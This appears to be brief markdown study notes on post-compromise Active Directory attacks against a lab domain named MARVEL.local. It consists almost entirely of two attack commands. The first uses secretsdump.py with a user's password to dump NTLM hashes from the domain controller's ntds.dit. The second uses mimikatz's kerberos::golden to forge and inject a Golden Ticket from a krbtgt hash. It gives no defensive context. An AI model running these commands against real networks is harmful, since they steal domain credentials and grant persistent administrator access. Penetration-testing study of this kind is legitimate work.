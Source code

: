 # Post compromising domain

## Dumping thz ntds.dit

```
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm 
```

## Golden ticket attack



```
kerberos::golden /User:Administrator /domain:marvel.local /sid:[SID_VALUE] /krbtgt:[KRBTGT_NTLM_HASH] /id:[RELATIVE_ID] /ptt
```

